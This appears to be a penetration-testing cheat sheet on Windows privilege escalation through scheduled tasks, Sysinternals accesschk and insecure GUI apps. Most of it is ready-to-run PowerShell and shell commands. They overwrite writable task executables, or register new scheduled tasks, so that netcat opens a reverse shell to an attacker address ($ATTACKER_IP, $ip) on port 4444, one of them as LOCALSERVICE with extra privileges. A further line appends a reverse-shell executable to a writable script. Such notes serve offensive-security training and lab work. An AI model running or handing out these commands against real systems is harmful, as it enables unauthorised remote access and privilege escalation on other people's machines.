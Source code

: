 ## Scheduled Tasks
```powershell
schtasks /query /tn $task_name /fo list /v
```
`Task to Run` parameter indicates what gets executed  
`Run as User` parameter indicates who executes task  
Use `icalcs` to check file permissions on the executable:
```powershell
icacls c:\path\to\task\to\run.extension
```
Replace with compatible version of netcat, socat, msfvenom reverse shell, etc
```powershell
echo c:\path\to\connection\method\nc64.exe -e cmd.exe $ATTACKER_IP 4444 > c:\path\to\task\to\run.extension
```
Then force task to run, remember to setup whatever listener required:
```powershell
schtasks /run /tn $task_name
```

Make a scheduled task, that runs nc.exe, if lacking privileges give shell those upon new schedule task shell for another shell...
```powershell
$TaskAction = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-Exec Bypass -Command `"C:\wamp\www\nc.exe $ip 4444 -e cmd.exe`""
Register-ScheduledTask -Action $TaskAction -TaskName "GrantPerm"
Start-ScheduledTask -TaskName "GrantPerm"
# Catch reverse shell
# We may lack some privileges
[System.String[]]$Privs = "SeAssignPrimaryTokenPrivilege", "SeAuditPrivilege", "SeChangeNotifyPrivilege", "SeCreateGlobalPrivilege", "SeImpersonatePrivilege", "SeIncreaseWorkingSetPrivilege"
$TaskPrincipal = New-ScheduledTaskPrincipal -UserId "LOCALSERVICE" -LogonType ServiceAccount -RequiredPrivilege $Privs
# Catch another shell
$TaskAction = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-Exec Bypass -Command `"C:\wamp\www\nc.exe $ip 4444 -e cmd.exe`""
# Register SchedueledTask
Register-ScheduledTask -Action $TaskAction -TaskName "GrantAllPerms" -Principal $TaskPrincipal
# Start Task
Start-ScheduledTask -TaskName "GrantAllPerms"
```

## Scheduled Tasks with Sysinternals
```powershell
\accesschk.exe /accepteula -quvw user C:\ScheduleTask.ps1 # systernals - if running it can be run somehow as SYSTEM
# If writable:
echo reverseShell.exe >> C:\ScheduleTask.ps1 # append .exe
```

## Insecure GUI Apps
```powershell
tasklist /V # GUI apps that can be run as Admin 
# In file dialogue box 
file://c:/windows/system32/cmd.exe
```
